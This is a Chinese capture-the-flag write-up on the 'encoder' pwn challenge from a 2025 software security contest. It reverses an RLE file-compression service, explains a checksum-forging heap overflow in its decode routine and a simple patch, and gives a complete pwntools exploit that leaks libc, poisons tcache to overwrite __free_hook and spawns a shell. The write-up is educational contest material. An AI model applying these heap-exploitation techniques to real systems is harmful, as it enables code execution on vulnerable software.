# 2025软件安全赛pwn encoder-先知社区

> **来源**: https://xz.aliyun.com/news/17415  
> **文章ID**: 17415

---

赛后总结发现这是一个漏洞百出的题，有各种各样的打法，这里我的打法是基于patch的结果来写的，下面就详细说一下

### 题目分析

题目是2.31的libc，不是传统的增删改查，出题思路是一个文件上传后压缩解压的功能，但实际上就是增删查都齐全，没有传统意义上的改



upload对应的是增，release对应的是删，download对应的是查，encode，decode需要逆向分析一下

#### 首先看upload



这里要输入一个index和一个size，并且size不能超过0x20000，如果超过，最后的size也是0x20000，不过这题不关心这里

接着有一个指针表一个size表，其实这里我逆向命名的不太好，他应该是一个结构体，先看一下按我的理解



这里面中间空出来的2行是一段buf，由于sizetable的大小是int，所以buf的总长度是0x10+0x4=0x14

更好的理解方式应该是这样



注意size只占4位，这里画的不完全正确，意会即可

然后看程序的逻辑，如果size<=16，那么会直接把指针取出来，这里有另一种打法用到了，由于我没有用到，所以这里不细讲，想看的话可以点击这里

在size>16时，如果本身size表里已经有了，那么判断输入的size是否比size表里的大，是的话会将原先的堆块释放掉，再重新申请一块更大的，放到指针表里，下面的printf经过heshi的提点，猜测这个其实是给checker看的，不是做题需要的，事实也确实如此

如果size不比size表里大，那么不作操作

如果原先size表就为空，那么直接申请该大小，并为指针表赋值



最后会将size表赋值，然后读入你输入的size大小的数据，必须读完，有点像进阶版的calloc，这就导致了想要指针残留是不可行的

#### 再看download



逻辑不难，根据size调用write函数，有多少写多少，就是一个show函数的功能

#### release函数



一个常规的删除，该置0的都置0了，没有uaf

#### encode函数



逻辑是这样，根据输入的index找sizetable，然后根据size的大小走不同的分支，如果size<=0x10，那么此时需要encode的数据存在bss上，也就是先前说到的结构体里的buf，反之在堆块上，取的是指针表里的指针，接着v0的计算大概就是预分配一个大一点的堆块，保证空间充足不会溢出，不必太关心，接下来讨论的都是size>0x10的情况

然后，程序会调用encode\_0函数，这个函数的逻辑我是让队里的re逆的，大概逻辑是这样的：



三个参数分别对应原数据的地址，原数据的大小，encode之后的数据的存放位置，返回值是encode之后的数据长度，那encode\_0干了什么事呢？实际上就是对数据的压缩，这里举个例子说明，如果原数据是“aaaa”（\x61\x61\x61\x61），那么压缩完之后数据就是\x04\x61

程序会把原先的指针释放掉，然后向新申请的指针首先memcpy一个“RLE\
”，这其实就是magic头，接着会将encode后的size放到ptr[1]的位置，从ptr[2]的位置开始存放数据，所有数据存放完之后，还会在数据末尾存放一个sum，这个sum是什么呢？是存放的所有数据的ASCII码之和，拿上面的那个例子来说，sum=0x4+0x61=0x65

然后会判断encode之后的数据长度+12是否小于0x10，是的话存到bss上的buf，否则把指针表的指针更新为ptr，那么这里就存在漏洞，原先存放原数据那块的堆块被释放了，但是size表没清0，所以接下来我把encode函数当成了delete函数来用，他是一个不清size表的delete，而release是一个清除size表的delete

#### decode函数

最后就是我打出本题的核心decode函数了



首先程序会分析这个堆块的头是不是RLE\
，是的话会取一个sum，这个sum的位置是v3+v3[1]+8，那么v3[1]是什么呢？结合对encode函数的逆向分析可知，这里其实就是encode之后的数据长度，所以这里的sum就是伪造数据的ASCII码之和，所以如果我把这个sum伪造了，那么我就可以在decode的时候解压出更多的数据，从而覆盖下一个堆块的size

decode函数就是encode函数的逆过程，其中sum参数会做减法，减去每次解压的ASCII码，比如压缩后的数据是\x04\x61，如果我伪造的sum是0x67，那么在执行操作之后做减法，sum=0x67-0x4-0x61=0x2，那么我还可以继续写，他的判断是while（sum），也就是sum只有为0才会停止，为正为负都不会停止，这也会导致这样一个问题，如果sum变成了负数，那么就会死循环了，正因为sum必须为0才停止，所以这里的伪造比较复杂，需要不断调试



后续操作和decode就差不多了

### 先说说怎么patch

首先可以肯定的是，这题的check写的就是一坨狗屎，这是毋庸置疑的，我修的是magic头，在数据段找到RLE这个字符串，随便改掉就可以，比如我改成了RJE，没想到就过了？很神奇有没有，正是因为这里patch过了，才有了我上面的思路，因为一开始我也不知道怎么改，我就猜测他可能会伪造encode后的数据进行攻击，所以一定要过memcpy("RLE\
",4)的检查，因此只要魔术头变了，他的exp一定就打不通了，事实估计也正是如此

0xh3y3师傅说把malloc\_usable\_size patch成malloc也过了，确实难绷


### 解题思路

前面既然已经说过了会导致溢出的漏洞在decode函数了，那么核心就是看一下该如何构造了

#### 第一步：伪造size

```
rle=b'RLE
'+p32(0x14)+b'\x68\x20\x60\x20'+b'\x60\x20\x60\x20'*4+p32(0x760)+b'\x70\x20\x70\x20'+b'\x01\x41\x01\x12\x06\x00'+b'\x06\x70'

#-----------------修改下一个堆块的size---------------------
upload(0,len(rle),rle)
upload(1,0x500,b'aaaabbbb'*(32*5))
upload(2,0x500,b'ccccdddd'*32*5)
encode(1)
decode(0)
#-------------------------------------------------------
```

这里我伪造的decode之后的数据长度是0x14，原因是0x14<<6=0x500，目的是为了在encode之后，空出来的那个堆块大小刚好是0x500，正好可以被decode里面的malloc函数再次申请到，同时0x500释放之后直接放入unsorted bin，不进入tcache，这里也是有用的

所以根据对decode的逆向，最终sum的位置应该是（v3+0x14+0x8），所以从RLE头开始到sum，中间应该有0x1c的填充

接着decode函数会根据sum对我们的数据进行解压，这里gdb调试看一下（断点下载encode和decode之间）



左边的框圈出的就是length，右边的框圈出的就是sum

接着，decode函数申请了一个0x14<<6=0x500大小的堆块，申请完之后刚好就是图片中的unsortedbin的位置



会根据RLE的文件体进行解析，首先是0x68个0x20，那么第一次填充，会首先填充0x68个0x20，同时sum-=(0x68+0x20)，从0x760变成0x6f8





后面的过程以此类推，要注意的是，由于sum本身伪造的过大，所以sum自己也会被解析成压缩后的数据，即0x60个0x07，0x00个0x00，然后才会继续解析后面的数据



这里经过调试，红框内的payload刚好完成了对上图中绿色的，大小为0x511的堆块的填充，于是后面的绿框内的payload就是用来改下一个堆块的size的，根据payload应该不难看出，我把size改成了0x1241=0x511+0x620+0x710，这里的0x620是encode函数malloc的，0x710是我还没有malloc，即将想要malloc的大小（所以这里其实已经超过了top chunk），黄框部分的payload，目的就是为了在填充完size为之后，让sum继续减到0从而终止while循环进行的调整，是调试出来的结果



即将开始覆盖size：



覆盖结束后：



此时sum还剩0x76=0x6+0x70



既然这样那我们就成功的修改了堆块的size，后面的打法就容易了

接下来我们进行泄露libc的操作，原理就是堆块重叠，类似堆风水

```
#-----------------泄露libc------------------------------
upload(3,0x700,b'eeeeffff'*(32*7))
upload(5,0x700,b'iiiijjjj'*(32*7))
upload(6,0xe00,b'kkkkllll'*(32*0xe))
upload(7,0x700,b'mmmmnnnn'*(32*7))
release(2)
upload(4,0x500,b'gggghhhh'*32*5)
release(6)
download(1)

p.rcvu(b'FileData: ')
libcbase=p.uu64()-0x1ecbe0
p.rcv(2)
heapbase=p.uu64()-0x2130

print('libcbase:',hex(libcbase))
print('heapbase:',hex(heapbase))
#-------------------------------------------------------
```

释放伪造堆块，得到一块大的unsortedbin



在申请0x500的大小，于是在index为1的堆块里就会存在残留指针





把堆块1 download（show）一下，我们就得到了libcbase和heapbase

接着再把刚才申请的0x500堆块申请回来，重新获得一块大的unsortedbin（这里就体现出了为什么一开始申请的大小是0x500，因为太小的话会直接放入tcache而不是unsortedbin，导致无法利用）

```
#-------------------------------------------------------
release(4)
#------------------触发top chunk合并，让堆块更加美观------------------
release(7)

upload(8,0x520,b'gggghhhh'*32*5+p64(0)+p64(0x41)+p64(0)*4)
release(8)
release(1)
upload(9,0x520,b'gggghhhh'*32*5+p64(0)+p64(0x41)+p64(libcbase+libc.symbols['__free_hook'])+p64(0)*3)
```

release（4）之后：



红框部分是一会要伪造的size，对应的其实是堆块1的size，我们要把这里伪造的小一点，让他属于tcache，后续打一个tcache投毒可以实现任意地址写任意数值，从而改\_\_free\_hook

upload(8,0x520,b'gggghhhh'\*32\*5+p64(0)+p64(0x41)+p64(0)\*4)之后：



release（8）之后：又恢复了大的unsortedbin，为的是下一次可以覆写tcache的fd和key



release（1）之后：可以看到成功得到了tcache



接着我们在申请一个大堆块，将fd改写为\_\_free\_hook，key改写成0，那么\_\_free\_hook就被加入到了tcache里，最终就可以申请到这里了





改写成功

最后先申请一个/bin/sh，在申请一次，就申请到了\_\_free\_hook，将此处写为system，然后release（10），就实现了执行system（“/bin/sh”）

### 完整paylaod如下

```
from pwnplus import *
context.arch='amd64'
context.log_level='DEBUG'

p=mypwn('./encoder')
libc=ELF('./libc-2.31.so')
def readatoi(delim,string):
    p.sda(delim,str(string))

def upload(index,size,content):
    readatoi(b'>>
', 1)
    readatoi(b'FileIdx: ',index)
    readatoi(b'FileSize: ',size)
    p.sda(b'FileData: ',content)

def download(index):
    readatoi(b'>>
',2)
    readatoi(b'FileIdx: ',index)

def encode(index):
    readatoi(b'>>
', 3)
    readatoi(b'FileIdx: ', index)

def decode(index):
    readatoi(b'>>
', 4)
    readatoi(b'FileIdx: ', index)

def release(index):
    readatoi(b'>>
', 5)
    readatoi(b'FileIdx: ', index)

rle=b'RLE
'+p32(0x14)+b'\x68\x20\x60\x20'+b'\x60\x20\x60\x20'*4+p32(0x760)+b'\x70\x20\x70\x20'+b'\x01\x41\x01\x12\x06\x00'+b'\x06\x70'

#-----------------修改下一个堆块的size---------------------
upload(0,len(rle),rle)
upload(1,0x500,b'aaaabbbb'*(32*5))
upload(2,0x500,b'ccccdddd'*32*5)
encode(1)
p.debug()
decode(0)
#-------------------------------------------------------
#-----------------泄露libc------------------------------
upload(3,0x700,b'eeeeffff'*(32*7))
upload(5,0x700,b'iiiijjjj'*(32*7))
upload(6,0xe00,b'kkkkllll'*(32*0xe))
upload(7,0x700,b'mmmmnnnn'*(32*7))
release(2)
upload(4,0x500,b'gggghhhh'*32*5)
release(6)
download(1)

p.rcvu(b'FileData: ')
libcbase=p.uu64()-0x1ecbe0
p.rcv(2)
heapbase=p.uu64()-0x2130

print('libcbase:',hex(libcbase))
print('heapbase:',hex(heapbase))
#-------------------------------------------------------
release(4)
#------------------触发top chunk合并，让堆块更加美观------------------
release(7)

upload(8,0x520,b'gggghhhh'*32*5+p64(0)+p64(0x41)+p64(0)*4)
release(8)
release(1)
upload(9,0x520,b'gggghhhh'*32*5+p64(0)+p64(0x41)+p64(libcbase+libc.symbols['__free_hook'])+p64(0)*3)

upload(10,0x30,b'/bin/sh\0'*6)
upload(11,0x30,p64(libcbase+libc.symbols['system'])*6)
release(10)


p.ia()
```

附打通截图


